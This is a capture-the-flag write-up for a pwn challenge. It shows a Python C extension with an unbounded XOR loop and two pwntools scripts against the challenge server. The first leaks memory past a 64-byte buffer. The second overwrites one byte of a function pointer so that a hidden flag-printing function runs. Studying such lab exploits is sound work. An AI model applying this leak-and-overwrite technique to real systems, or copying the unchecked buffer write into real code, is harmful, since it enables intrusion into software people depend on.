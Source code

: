 # Turbo crypto part 2

Category: Pwn

Points: 900

Solves: 1

> Using the key you extracted, we found a [link](https://drive.google.com/uc?id=19mmImjpreALZSs0D88BtLY65cFBkHsMC&export=download) to the source code for `turbofastcrypto`. There happens to be a secret `flag` file on the server, and you need to extract it.

The authors generously decided to place a first blood bounty of 1 month of discord nitro on this challenge :heart:.

The source code contains a `turbofastcrypto.c` (reproduced below), a shared object (which I had no experience pwning) and a bunch of other files which were mostly setup files.

```c
#define PY_SSIZE_T_CLEAN
#include <Python.h>

char IV[64] = "IRS{secrets_are_revealed!!}";

#pragma GCC optimize ("O0")
__attribute__ ((used)) static void print_flag() { system("cat flag"); }

static PyObject *encrypt(PyObject *self, PyObject *args) {
    const char *cmd;
    Py_ssize_t len;
    if (!PyArg_ParseTuple(args, "s#", &cmd, &len)) return NULL;
    for (int i = 0; i < len; i++) IV[i] ^= cmd[i];
    return PyBytes_FromStringAndSize(IV, len);
}

static PyMethodDef mtds[] = {
    {"encrypt", encrypt, METH_VARARGS, "Encrypt a string" },
    { NULL, NULL, 0, NULL }
};

static struct PyModuleDef moddef = {
    PyModuleDef_HEAD_INIT,
    "turbofastcrypto", 
    NULL,
    -1,
    mtds
};

PyMODINIT_FUNC PyInit_turbofastcrypto() { return PyModule_Create(&moddef);}
```

This code looks really intimidating (probably the hard part of this challenge). It defines a python C extension, which is built into a shared object, which is then loaded into the CPython runtime, so python code can call these functions.

At first, I thought the bug was some kind of improper use of the cpython functions `PyArg_ParseTuple` and `PyBytes_FromStringAndSize` but according to the documentation they seem to be used correctly.

The `for` loop was much more interesting though. Each character of the user's input is XORed with the IV array and stored back to the IV array. However, there is no bounds checking here, so if the user's input is longer than the size of IV (64 bytes), we could leak, and potentially write memory!

I wrote a small script to leak memory:

```python
from pwn import *
p = remote("challs.sieberrsec.tech", 3477)

# anything ^ 0 = anything
arr = [0 for _ in range(200)]
p.sendline(bytes(arr))
p.recvuntil("Encrypted:")
# probably should use safeeval but whatever
l = eval(p.recvline())
print(hexdump(l))
```

As expected, we see the flag, then a bunch of memory addresses.

![image-20211227072236432](./images/dump.png)

If you run this a few times, you'll find that the leak addresses are different every time, except for the first byte (the LSB, things are little endian here) ~~(and also the second digit of the second byte but that's not important)~~. This is probably due to PIE or some other kind of ASLR for shared objects, which randomizes the addresses of functions. Anyway, I ran `objdump -d <the shared object>` to find out what these functions were:

![image-20211227072656684](./images/objdump.png)

Hmmm, the `encrypt` function ends in `0xc0`, which is exactly the same as the leaked address we saw earlier! And the `print_flag` function's address only differs by 1 byte! If we're able to modify the `0xc0` to `0xa0` we can (hopefully) get the `print_flag` function to be called.

We can do this by XORing the 72nd byte (the location of the first `0xc0`) with 96, since `0xc0 ^ 96 = 160 = 0xa0`. Fortunately, 96 is within the ASCII range, so it shouldn't have any issues.

I made slight modifications to the script to set the 72nd byte:

```python
from pwn import *
p = remote("challs.sieberrsec.tech", 3477)

# anything ^ 0 = anything
arr = [0 for _ in range(200)]
arr[72] = 96
p.sendline(bytes(arr))
p.interactive()
```

When I ran the script, nothing happened and I was really worried that I had messed up somewhere. However, when I pressed enter, the script sent the flag. I realized that instead of overwriting the return pointer, I had overwritten some kind of function table that cpython uses to jump to the C extensions. When the function is executed again, the `print_flag` function is called instead of the `encrypt` function. However, the program crashes afterwards with the error:

```
Traceback (most recent call last):
  File "./tfc.py", line 4, in <module>
    ciphertext = turbofastcrypto.encrypt(plaintext)
SystemError: <built-in function encrypt> returned NULL without setting an error
```

which is completely expected and ok since I've already gotten the flag.

## Comments

I actually got really confused when writing this writeup cos I saw `0x0c` as `0xc0` and thought the index was 64. During the CTF I used `.index` to find the index so it was fine. I also got the chance to use the really useful pwntools `hexdump` function, which was cool.

Thanks again to the authors for this great challenge and the nitro!
